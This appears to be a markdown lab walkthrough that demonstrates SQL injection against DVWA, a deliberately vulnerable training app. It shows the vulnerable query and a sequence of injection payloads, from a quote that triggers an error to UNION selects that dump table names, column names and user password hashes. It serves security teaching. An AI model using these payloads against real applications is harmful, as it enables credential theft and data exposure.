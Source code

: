 
# SQL Injection Demo


## Source Code Location
```
docker exec -it dvwa bash 
# cd /var/www/html
# cd /var/www/html/vulnerabilities/sqli
```

## Vunerable SQL Code

* Source Files: /var/www/html/vulnerabilities/sqli/source
* Note: $id comes from User Input

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

## On Web Form, Try

* User ID = Re11k'
* Should Get Error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Re11k''' at line 1
```

Note: 
```
SELECT first_name, last_name FROM users WHERE user_id = ''Re11k''
```

## Now Try

* User ID = Re11k' or 'a' = 'a
* Should See Data Exposed

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'Re11k' or 'a' = 'a'
```


## Get Database Name

* User ID = Re11k' and 1=1 union select null, database() #

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'RRe11k' and 1=1 union select null, database() #'
```


## Get Table Names

* User ID = Re11k' and 1=1 union select null, table_name from information_schema.tables #


## Get Columns from Users Table

* User ID = Re11k' and 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #


## Get Passwords

* User ID = Re11k' and 1=1 union select null, concat(user,0x0a,password) from users #









